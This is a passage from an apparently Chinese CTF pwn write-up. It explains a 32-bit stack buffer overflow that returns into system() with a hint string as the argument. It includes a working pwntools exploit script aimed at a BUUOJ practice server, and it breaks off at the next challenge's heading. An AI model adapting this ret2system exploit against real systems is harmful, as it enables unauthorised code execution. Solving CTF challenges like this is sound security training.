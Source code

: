 可以看到两个关键的地址



还是老规矩溢出buf

![image-20241027161558612](../_media/image-20241027161558612.png)

最后的payload：注意一点就是顺序绝对不能变化，因为溢出是有顺序的，思路就是buf溢出到返回函数，然后调用到system函数的地址，然后执行的数据在hint里面，那个p32(0)，里面的数据可以是任意的

因为：32位的分布是这样子的，返回地址+下一次的返回地址+参数1+参数2+...这样子因为我们下一次返回地址是啥都行，我们拿到shell就跑了，所以直接为0



最终exp：

```python
from pwn import *

r = remote('node5.buuoj.cn',29222)

hint = 0x804A024
system = 0x8048320

payload = b'a' * (0x88 + 0x04) + p32(system) + p32(0) + p32(hint)

r.sendline(payload)

r.interactive()
```



## ciscn_2019_n_8

点开main函数：
